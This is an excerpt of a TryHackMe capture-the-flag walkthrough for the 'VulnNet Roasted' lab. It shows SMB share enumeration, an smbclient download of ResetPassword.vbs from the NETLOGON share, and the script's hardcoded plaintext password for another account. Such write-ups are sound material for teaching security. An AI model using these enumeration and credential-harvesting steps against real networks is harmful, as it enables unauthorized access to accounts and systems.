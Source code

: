 ```tsx
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

As you can see, now the user `t-skid` has the permission `READ ONLY` on the `NETLOGON` shared folder → Let’s access it:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient \\\\10.10.73.84\\NETLOGON -U t-skid  
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

                8540159 blocks of size 4096. 4187698 blocks available
smb: \> get ResetPassword.vbs 
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit
```

The `ResetPassword.vbs` is located on this directory → I transfer it to the local machine and read its content:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat ResetPassword.vbs                   
Option Explicit

Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
Dim strUserDN, objUser, strPassword, strUserNTName

' Constants for the NameTranslate object.
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1

If (Wscript.Arguments.Count <> 0) Then
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If

strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"

' Determine DNS domain name from RootDSE object.
Set objRootDSE = GetObject("LDAP://RootDSE")
strDNSDomain = objRootDSE.Get("defaultNamingContext")
[REDACTED...]
```
